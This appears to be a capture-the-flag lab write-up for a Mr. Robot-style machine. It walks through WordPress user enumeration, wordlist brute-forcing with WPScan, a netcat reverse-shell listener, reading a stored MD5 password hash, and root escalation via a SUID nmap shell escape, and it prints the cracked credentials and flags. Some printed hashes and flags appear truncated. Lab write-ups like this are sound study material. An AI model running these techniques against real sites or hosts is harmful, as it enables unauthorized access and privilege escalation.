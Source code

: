 PART 1 
Project Goal:
To assess the security of the WordPress site at http://10.10.89.207, gather information about its version, users, and attempt to brute-force a password using a wordlist.

Work Process and Used Code

Running WPScan to gather basic information
wpscan --url http://10.10.89.207 --enumerate u --disable-tls-checks
Result:

WordPress version 4.3.1 found

XML-RPC enabled

Theme: twentyfifteen

No users found

Finding username by author ID enumeration
Since WPScan did not reveal any users, I manually enumerated author IDs:

for i in {1..10}; do
  curl -s -L "http://10.10.89.207/?author=$i" | grep -oP '(?<=/author/)[^/"]+'
done
Result:
Found username — elliot

Downloading the dictionary file from the server
Found a dictionary file fsocity.dic on the server and downloaded it:

curl http://10.10.89.207/fsocity.dic -o fsocity.dic
Cleaning the dictionary from duplicates
Sorted and removed duplicates in the dictionary:

sort -u fsocity.dic -o fsocity_clean.dic
Brute-forcing the password for user elliot via WPScan
Used this command to brute-force the password with the wordlist:

wpscan --url http://10.10.89.207 \
  --usernames elliot \
  --passwords fsocity_clean.dic \
  --disable-tls-checks
Final Result:
Successfully cracked the password:

Username: elliot
Password: ER28-0652

Conclusion:
The site is running an outdated WordPress version vulnerable to XML-RPC attacks.

The username elliot was discovered by enumerating author IDs.

Using the dictionary fsocity.dic found on the server helped quickly brute-force the password.

The gathered data allows unauthorized access to the site.

PART2 
Objective: Obtain all three flags, with the final one requiring root privilege escalation.

Initial Setup
Target IP: 10.10.218.92

Your IP (attacker): 10.10.120.96

Step 1. Establishing a Reverse Shell
On your machine (10.10.120.96), you started a Netcat listener:

nc -lnvp 4444
On the target machine (10.10.218.92), you triggered a reverse shell connecting back to your listener.

After the connection was established, you got a shell as the user daemon.

Step 2. Information Gathering and Switching to User robot
Checked the current user:

whoami
daemon
Explored home directories and found files under /home/robot:


cd /home/robot
ls -lsa
cat password.raw-md5
The file password.raw-md5 contained an MD5 hash of the robot user’s password:

robot:c3fcd3d76192e4007dfb496cca67e13
Recognized the hash as the MD5 of "hello world".

Switched to the user robot using the password "hello world":

su robot
Successfully switched to robot.

Step 3. Obtaining the Second Flag
Navigated to robot's home directory and read the second flag:

cd /home/robot
cat key-2-of-3.txt
Second flag obtained:

822c73956184f694993bede3eb39f95
Step 4. Privilege Escalation Attempt
Checked sudo permissions for robot:

sudo -l
Could not use sudo as the password was unknown.

Searched for root-owned SUID binaries:

find / -perm -4000 -user root -type f 2>/dev/null
Found /usr/local/bin/nmap with SUID bit set.

Launched nmap in interactive mode and executed a shell command:

/usr/local/bin/nmap --interactive
nmap> !sh
Got a root shell.

Step 5. Obtaining the Third Flag (Root Level)
Changed directory to root’s home and read the third flag:

cd /root
cat key-3-of-3.txt
Third flag obtained:


04787ddef27c3dee1ee161b21670b4e
Summary
Used reverse shell to get initial access as daemon.

Cracked MD5 hash to find robot’s password and switched to user robot.

Retrieved the second flag from robot’s home directory.

Found and exploited SUID nmap binary to escalate privileges to root.

Retrieved the third flag from root’s home directory.

